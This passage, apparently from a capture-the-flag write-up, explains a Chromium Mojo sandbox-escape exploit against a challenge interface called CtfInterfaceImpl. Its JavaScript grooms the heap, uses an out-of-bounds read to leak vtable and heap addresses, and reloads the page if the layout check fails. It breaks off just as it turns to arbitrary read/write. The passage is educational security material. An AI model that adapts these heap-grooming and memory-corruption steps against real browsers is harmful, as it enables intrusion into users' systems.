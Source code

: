 ```javascript
    A[i].ptr.reset();
}

// Re-allocate those 0x20 free chunks with the following allocation sequence: 
// CtfInterfaceImpl -> size 4 double vector -> CtfInterfaceImpl -> size 4 double vector...
for (i = 0 ; i < 0x1000 ; i++) {
    B.push(null);
    B[i] = new blink.mojom.CtfInterfacePtr();
    Mojo.bindInterface(blink.mojom.CtfInterface.name, mojo.makeRequest(B[i]).handle);
    B[i].resizeVector(0x4); // double vector with size 4 == allocate a 0x20 chunk
}

// Write value to B[i] for debug usage
for (i = 0 ; i < 0x1000 ; i++) {
    await B[i].write(itof(BigInt(i)), 0);
}

```

By doing this, we found that there's a high probability that `CtfInterfaceImpl` object `B[2]` will be placed right behind `B[0]`'s `numbers_` vector. By using the OOB read/write on `B[0]->numbers_`, we'll be able to leak some address and hijack the control flow.

However there's still a possibility that `B[2]` won't be placed right behind `B[0]->numbers_`, so before we continue our exploitation, we'll have to make sure that the current heap layout is exploitable:


```javascript
// leak address from B[2]
var vtable = (await B[0].read(4)).value; // vtable
var heap1 = (await B[0].read(5)).value; // numbers_ ( vector_begin )
var heap2 = (await B[0].read(6)).value; // numbers_ ( vector_end )

vtable = ftoi(vtable);
heap1 = ftoi(heap1);
heap2 = ftoi(heap2);
/* Check if B[2] is right behind B[0]->numbers_ */
if ((heap1 + 0x20n == heap2) && ( (vtable & 0xfffn) == 0x4e0n)) { // Pass check !
    print("OK!");
    print(hex(vtable));
    print(hex(heap1));
    print(hex(heap2));
} else { // Failed ! reload page and restart SBX exploit
    window.location.reload();
}

```

Here we use the values we leaked from `B[0]->numbers_` and see if they contain the vtable address of `CtfInterfaceImpl` and the heap address of `B[2]->numbers_`. If it passes the check, continue our exploit, or else we'll have to reload the page and restart our SBX exploit.

By now we're able to corrupt the `B[2]` object and do some interesting stuff. For example, we can achieve arbitrary read/write by corrupting the pointer of `B[2]->numbers_`:
